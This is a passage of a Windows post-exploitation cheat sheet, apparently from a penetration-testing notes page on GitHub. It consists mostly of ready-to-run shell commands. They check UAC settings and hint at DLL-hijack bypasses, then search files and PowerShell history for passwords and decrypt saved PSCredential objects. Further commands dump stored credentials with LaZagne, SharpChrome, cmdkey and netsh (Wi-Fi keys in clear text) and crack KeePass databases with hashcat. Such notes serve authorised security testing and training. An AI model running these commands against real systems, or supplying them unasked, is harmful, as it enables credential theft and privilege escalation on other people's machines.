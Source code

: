 ```shell
# Check if UAC is enabled and its level
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

# Many UAC bypasses involve hijacking DLLs loaded by high-integrity processes
# Example: Place a malicious DLL where a trusted executable will find it first
# C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe might load a DLL from a user-writable path
```

-----

## Credential Theft & Hunting

Search for stored credentials in files, memory, and applications.

### Credential Hunting in Files

Look for passwords, API keys, and connection strings in common configuration files and user documents.

```shell
# Search all common config/text files for the word "password"
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

# Check PowerShell history
cat (Get-PSReadLineOption).HistorySavePath

# Check for saved PSCredential objects
$credential = Import-Clixml -Path 'C:\Path\To\pass.xml'
$credential.GetNetworkCredential().password
```

### Dumping Credentials

Extract passwords and hashes from memory, browsers, and password managers.

```shell
# List credentials saved by Windows Credential Manager
cmdkey /list

# Use LaZagne to dump passwords from many applications
.\lazagne.exe all

# Dump browser credentials
.\SharpChrome.exe logins /unprotect

# Dump Wi-Fi passwords
netsh wlan show profile
netsh wlan show profile "<ProfileName>" key=clear

# Find and crack KeePass databases
# 1. Get the database file
# 2. Convert to a hashcat-friendly format
python2.7 keepass2john.py database.kdbx > hash.txt
# 3. Crack the hash
hashcat -m 13400 hash.txt /path/to/wordlist.txt
```
